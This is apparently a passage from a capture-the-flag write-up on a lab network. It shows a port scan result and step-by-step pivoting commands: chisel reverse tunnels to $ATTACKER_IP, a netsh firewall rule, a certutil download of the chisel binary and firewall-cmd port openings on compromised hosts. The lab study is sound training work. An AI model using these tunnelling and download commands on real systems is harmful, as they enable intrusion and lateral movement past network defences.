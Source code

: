 then hit "Submit". We're skipping discovery, because it is done via ICMP scans
which are blocked by the other Windows host.

We got 2 ports:

```
Hostname      OpenPorts
--------      ---------
10.200.90.100 80,3389
```

- Scan the top 50 ports of the last IP address you found in Task 17. Which ports are open (lowest to highest, separated by commas)?

> 80,3389

---

### ***Personal PC** Pivoting*

- [x] On your attacking machine:

```bash
$ go run main.go server -p 8001 --reverse
```

- [x] On 1st compromised machine:

Upload chisel-unknown.exe file. From there, transfer it to 2nd compromised machine:
Spin up python http server: `python3 -m http.server 15180`,
in the Empire shell type:

```cmd
> netsh advfirewall firewall add rule name="unknown-15180" dir=in action=allow protocol=tcp localport=15180

> certutil.exe -urlcache -f http://10.200.90.200:15180/chisel-unknown.exe chisel-unknown.exe
```

Back to the 1st machine:

```bash
$ firewall-cmd --zone=public --add-port 15180/tcp

$ firewall-cmd --zone=public --add-port 15181/tcp

$ ./chisel-unknown server -p 15181 --reverse &

$ ./chisel-unknown client $ATTACKER_IP:8001 R:10003:localhost:15180 &
```

- [x] On 3rd compromised machine:

```cmd
> .\chisel-unknown.exe client 10.200.90.200:15181 R:15180:10.200.90.100:80
```

Now visit it in your browser at "http://10.50.91.83:10003/"

- Using the Wappalyzer browser extension (Firefox | Chrome) or an alternative method, identify the server-side Programming language (including the version number) used on the website.
